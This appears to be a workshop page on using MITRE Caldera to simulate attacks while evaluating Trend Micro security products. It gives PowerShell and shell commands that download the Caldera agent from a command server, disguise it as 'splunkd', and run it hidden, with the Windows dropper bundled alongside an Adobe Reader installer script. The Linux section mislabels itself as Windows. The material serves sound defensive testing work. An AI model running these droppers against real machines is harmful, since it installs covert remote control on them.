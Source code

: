 ```yaml
---
title: "Mitre Caldera"
chapter: false
weight: 31
pre: "<b>3.1 </b>"
---
```

## Mitre Caldera
CALDERA™ is a cybersecurity framework developed by MITRE that empowers cyber practitioners to save time, money, and energy through automated security assessments.

We are using Caldera as one of the tools to help us evaluate how Cloud One Workload Security and Vision One could empower companies to improve their security posture and risk management.


### Mitre Caldera - Pre-Configuration
Before you start with the attack simulation, be sure you updated the Mitre Caldera Global Configurations.
You must replace the IP Address (0.0.0.0) with the Public IP Address you are using to access the Mitre Caldera management console.

{{< youtube id="V4AxIqFGqrU" >}}

---

### Dropping the Malicious Payloads
After you update the IP Configuration, you are ready to create the payloads we are going to use with this demo.

#### Windows Payload
The first payload we will create is the Windows Payload. You will pack the malicious payload into an executable file, uploading it to filebin.net and then downloading and executing it on the Windows Client.

The following video shows step-by-step how to create this malicious payload and drop it to the Windows Target.

        Windows Payload
        
        $server="http://caldera-public-ip-address";
        $url="$server/file/download";
        $wc=New-Object System.Net.WebClient;
        $wc.Headers.add("platform","windows");
        $wc.Headers.add("file","sandcat.go");
        $data=$wc.DownloadData($url);
        get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
        rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
        [io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
        Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
        Install-Script -Name Download-AdobeReaderDC

References:
- AdobeReaderInstaller.ps1 https://www.powershellgallery.com/packages/Download-AdobeReaderDC/1.0.0
- PS1toEXE - https://ps2exe.azurewebsites.net/
- Online Storage - https://filebin.net/

{{< youtube id="Y7BuLK5055M" >}}

---
#### Linux Payload
The first payload we will create is the Windows Payload. You will create one script based on this payload, then uploading it to filebin.net and then downloading and executing it on the Windows Client.

The following video shows step-by-step how to create this malicious payload and drop it to the Linux Target.

        Linux Payload

        server="http://caldera-public-ip-address";
        curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
        chmod +x splunkd;
        ./splunkd -server $server -group red -v

References:
- Online Storage - https://filebin.net/

{{< youtube id="SXQybQwwjX4" >}}


---


